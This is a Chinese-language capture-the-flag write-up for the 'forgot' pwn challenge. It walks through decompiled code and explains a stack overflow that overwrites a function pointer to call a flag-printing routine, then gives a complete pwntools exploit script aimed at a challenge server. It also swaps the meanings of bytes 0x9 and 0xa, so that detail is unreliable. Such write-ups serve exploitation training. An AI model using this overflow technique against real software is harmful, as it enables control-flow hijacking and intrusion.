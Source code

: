 xman_pwn_forgot

反汇编发现

```c
  __isoc99_scanf("%s", &v2);
  for ( i = 0; ; ++i )
  {
    v0 = i;
    if ( v0 >= strlen((const char *)&v2) )
      break;
    switch ( v14 )
    {
      case 1:
        if ( sub_8048702(*((char *)&v2 + i)) )
          v14 = 2;
        break;
      case 2:
        if ( *((_BYTE *)&v2 + i) == 64 )
          v14 = 3;
        break;
      case 3:
        if ( sub_804874C(*((char *)&v2 + i)) )
          v14 = 4;
        break;
      case 4:
        if ( *((_BYTE *)&v2 + i) == 46 )
          v14 = 5;
        break;
      case 5:
        if ( sub_8048784(*((char *)&v2 + i)) )
          v14 = 6;
        break;
      case 6:
        if ( sub_8048784(*((char *)&v2 + i)) )
          v14 = 7;
        break;
      case 7:
        if ( sub_8048784(*((char *)&v2 + i)) )
          v14 = 8;
        break;
      case 8:
        if ( sub_8048784(*((char *)&v2 + i)) )
          v14 = 9;
        break;
      case 9:
        v14 = 10;
        break;
      default:
        continue;
    }
  }
 (*(&v3 + --v14))();
```

 `(*(&v3 + --v14))();`是函数指针调用，使v14变成10，v12变成sub_80486CC的地址就可以了(因为看到sub_80486CC这个函数里直接cat flag了)

```c
  size_t v0; // ebx
  int v2; // [esp-78h] [ebp-78h]
  int (*v3)(); // [esp-58h] [ebp-58h]
  int (*v4)(); // [esp-54h] [ebp-54h]
  int (*v5)(); // [esp-50h] [ebp-50h]
  int (*v6)(); // [esp-4Ch] [ebp-4Ch]
  int (*v7)(); // [esp-48h] [ebp-48h]
  int (*v8)(); // [esp-44h] [ebp-44h]
  int (*v9)(); // [esp-40h] [ebp-40h]
  int (*v10)(); // [esp-3Ch] [ebp-3Ch]
  int (*v11)(); // [esp-38h] [ebp-38h]
  int (*v12)(); // [esp-34h] [ebp-34h]
  int v13; // [esp-30h] [ebp-30h]
  signed int v14; // [esp-10h] [ebp-10h]
  size_t i; // [esp-Ch] [ebp-Ch]
```

> payload = 'a' * 0x44 + p32(0x080486CC) + 'a' * 0x20 + p32(0x8)

0x44:填充从v2开始填，v12到v2间隔0x44

0x20:v12地址改掉后距离v14间隔0x20

P32（0x8）：将v14在进入循环前设成0x8，由于填充字符串是a，满足`sub_8048784`函数的要求，所以循环结束时v14会被设成10，下面的函数指针的函数调用可以顺利调用到v12的函数

**这里不直接p32(0x9),p32(0xa)是因为0x9是\n,0xa是\t，p32(0x9)或者p32(0xa)之后查看内存会显示设成了ffffffff**

>0xff913afc:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
>0xff913b04:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
>0xff913b0c:	0x61	0x61	0x61	0x61	0x61	0x61	0x61	0x61
>0xff913b14:	0x61	0x61	0x61	0x61	0xff	0xff	0xff	0xff

```c
解答：
#! /usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.log_level="debug"
context.arch = "amd64"
pwn_file="./forgot"
#elf=ELF(pwn_file)
#libc=ELF("./libc.so.6")
#heap_add=0
#stack_add=0
if len(sys.argv)==1:
    c=process(pwn_file)
    pid=c.pid
else:
    c=remote("111.198.29.45", 41935)
    pid=0

def debug():
    log.debug("process pid:%d"%pid)
    pause()


payload = 'a'*0x44 + p32(0x080486CC) + 'a'*0x20 + p32(0x8)

c.recvuntil(">")
c.sendline("bbb")
debug()
c.sendlineafter("> ", payload)

c.interactive()
```

